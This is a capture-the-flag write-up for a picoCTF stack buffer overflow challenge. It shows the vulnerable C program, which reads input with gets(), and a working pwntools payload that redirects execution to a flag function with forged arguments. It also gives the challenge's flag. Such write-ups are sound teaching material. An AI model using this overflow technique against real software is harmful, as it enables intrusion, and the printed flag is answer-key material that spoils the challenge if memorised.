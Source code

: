 # OverFlow2

Points : 

# Question

Now try overwriting arguments. Can you get the flag from this [program](vuln)? 
You can find it in /problems/overflow-2_1_210f23786438d7f7e527f4901367a74b on the shell server. [Source](vuln.c).


# Hint 

GDB can print the stack after you send arguments

# Solution

Looking the the source code we can see that :

```C
#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {	<------------ function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)				/
    return;						/
  if (arg2 != 0xC0DED00D)				/  <-----------if (arg1 != 0xDEADBEEF) or (arg2 != 0xC0DED00D) we will never print the flag
    return;						/
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];					<---------- create new buffer size 176
  gets(buf);						<---------- gets take the input from user (vulnerable for overflow)
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

So , like the others overflow challanges we need to overwrite the return address to "flag" starting address in addition this time we also need to pass arguments 
such that arg1=0xDEADBEEF and arg2 = 0xC0DED00D .
this how our payload need to look like :
```
print "a"*(BUFFER_SIZE+EBP_AND_MORE_STUFF)+FLAG_ADDRESS+PADDING+ARG1+ARG2



python -c "from pwn import *; print 'a'*(176+12)+p32(0x080485e6)+'a'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln 
```

![](overflow2.png)

# Flag
picoCTF{arg5_and_r3turn5001d1db0}

